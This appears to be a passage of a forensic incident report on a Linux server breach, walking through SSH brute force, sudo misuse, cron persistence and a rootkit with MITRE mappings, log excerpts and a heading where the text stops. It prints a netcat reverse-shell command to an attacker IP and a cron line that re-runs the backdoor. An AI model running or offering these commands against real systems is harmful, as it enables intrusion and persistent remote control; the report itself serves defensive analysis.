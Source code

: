 **Total Dwell Time:** 5 hours  
**Time to Root:** 2 minutes (very fast)  
**Time to Exfiltration:** 56 minutes

---

## Attack Analysis

### Initial Access (MITRE: T1078 - Valid Accounts)

**Method:** SSH brute-force attack

**Evidence:**
```
Oct 12 22:15:33 server sshd[15892]: Failed password for invalid user backup from 185.220.101.47
Oct 12 22:15:45 server sshd[15892]: Failed password for invalid user backup from 185.220.101.47
Oct 12 22:16:01 server sshd[15892]: Failed password for invalid user postgres from 185.220.101.47
Oct 12 22:16:23 server sshd[15923]: Accepted password for dbuser from 185.220.101.47
```

**Vulnerability:** Weak password "admin123" + no rate limiting

### Privilege Escalation (MITRE: T1068)

**Method:** sudo misconfiguration

**Evidence:**
```
Oct 12 22:16:25 server sudo: dbuser : TTY=pts/1 ; PWD=/home/dbuser ; USER=root ; COMMAND=/bin/bash
```

**Vulnerability:** dbuser had NOPASSWD sudo rights

### Persistence (MITRE: T1053.003 - Cron)

**Backdoor:** `/tmp/.hidden/update.sh`

**Cron job:**
```
*/5 * * * * /tmp/.hidden/update.sh >/dev/null 2>&1
```

**Connects back:** nc 185.220.101.47 4444 -e /bin/bash

### Defense Evasion (MITRE: T1014 - Rootkit)

**Rootkit:** `/tmp/.hidden/rootkit.ko`

**Loaded:**
```
Oct 12 22:23:34 server kernel: rootkit: loading out-of-tree module taints kernel
```

**Purpose:** Hide processes, files, network connections

### Credential Access (MITRE: T1056.001 - Keylogging)
